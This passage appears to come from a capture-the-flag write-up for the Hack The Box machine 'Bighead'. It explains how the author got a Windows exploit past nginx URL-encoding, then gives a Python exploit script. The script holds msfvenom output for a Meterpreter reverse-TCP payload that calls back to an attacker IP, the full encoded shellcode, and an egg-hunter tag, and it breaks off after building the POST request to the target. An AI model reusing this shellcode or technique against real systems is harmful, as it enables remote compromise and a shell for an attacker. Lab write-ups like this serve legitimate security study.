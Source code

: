 Nice, the exploit works locally.

But when I tried running it against Bighead it didn't work so I replicated the nginx setup locally in Win7 and found that the second stage shellcode was being URL encoded by nginx. To work around this I had to fix the POST request and remove the `Content-Type` header so it would not URL encode the payload then switch the content body to the raw shellcode (non URL-encoded).

The final exploit looks like this:

```python
#!/usr/bin/python

from pwn import *
import requests

'''
# msfvenom -p windows/meterpreter/reverse_tcp -b \x00\x0a\x0d -f python LHOST=10.10.14.23 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of python file: 1772 bytes
'''

egg = "\x77\x30\x30\x74" # w00t
payload = egg + egg
payload += "\xb8\xc3\x06\x6e\xa1\xd9\xcd\xd9\x74\x24\xf4\x5f\x2b"
payload += "\xc9\xb1\x56\x83\xef\xfc\x31\x47\x0f\x03\x47\xcc\xe4"
payload += "\x9b\x5d\x3a\x6a\x63\x9e\xba\x0b\xed\x7b\x8b\x0b\x89"
payload += "\x08\xbb\xbb\xd9\x5d\x37\x37\x8f\x75\xcc\x35\x18\x79"
payload += "\x65\xf3\x7e\xb4\x76\xa8\x43\xd7\xf4\xb3\x97\x37\xc5"
payload += "\x7b\xea\x36\x02\x61\x07\x6a\xdb\xed\xba\x9b\x68\xbb"
payload += "\x06\x17\x22\x2d\x0f\xc4\xf2\x4c\x3e\x5b\x89\x16\xe0"
payload += "\x5d\x5e\x23\xa9\x45\x83\x0e\x63\xfd\x77\xe4\x72\xd7"
payload += "\x46\x05\xd8\x16\x67\xf4\x20\x5e\x4f\xe7\x56\x96\xac"
payload += "\x9a\x60\x6d\xcf\x40\xe4\x76\x77\x02\x5e\x53\x86\xc7"
payload += "\x39\x10\x84\xac\x4e\x7e\x88\x33\x82\xf4\xb4\xb8\x25"
payload += "\xdb\x3d\xfa\x01\xff\x66\x58\x2b\xa6\xc2\x0f\x54\xb8"
payload += "\xad\xf0\xf0\xb2\x43\xe4\x88\x98\x0b\xc9\xa0\x22\xcb"
payload += "\x45\xb2\x51\xf9\xca\x68\xfe\xb1\x83\xb6\xf9\xc0\x84"
payload += "\x48\xd5\x6a\xc4\xb6\xd6\x8a\xcc\x7c\x82\xda\x66\x54"
payload += "\xab\xb1\x76\x59\x7e\x2f\x7d\xcd\x8b\xa5\x8f\x1a\xe4"
payload += "\xbb\x8f\x24\xa4\x32\x69\x74\x14\x14\x26\x35\xc4\xd4"
payload += "\x96\xdd\x0e\xdb\xc9\xfe\x30\x36\x62\x94\xde\xee\xda"
payload += "\x01\x46\xab\x91\xb0\x87\x66\xdc\xf3\x0c\x82\x20\xbd"
payload += "\xe4\xe7\x32\xaa\x92\x07\xcb\x2b\x37\x07\xa1\x2f\x91"
payload += "\x50\x5d\x32\xc4\x96\xc2\xcd\x23\xa5\x05\x31\xb2\x9f"
payload += "\x7e\x04\x20\x9f\xe8\x69\xa4\x1f\xe9\x3f\xae\x1f\x81"
payload += "\xe7\x8a\x4c\xb4\xe7\x06\xe1\x65\x72\xa9\x53\xd9\xd5"
payload += "\xc1\x59\x04\x11\x4e\xa2\x63\x21\x89\x5c\xf1\x0e\x32"
payload += "\x34\x09\x0f\xc2\xc4\x63\x8f\x92\xac\x78\xa0\x1d\x1c"
payload += "\x80\x6b\x76\x34\x0b\xfa\x34\xa5\x0c\xd7\x99\x7b\x0c"
payload += "\xd4\x01\x8c\x77\x95\xb6\x6d\x88\xbf\xd2\x6e\x88\xbf"
payload += "\xe4\x53\x5e\x86\x92\x92\x62\xbd\xad\xa1\xc7\x94\x27"
payload += "\xc9\x54\xe6\x6d"

data = {"payload": payload}
proxies = {"http": "http://127.0.0.1:8080"}

s = requests.Session()
r = requests.Request("POST", "http://dev.bighead.htb/coffee/", data=data)
p = r.prepare()
```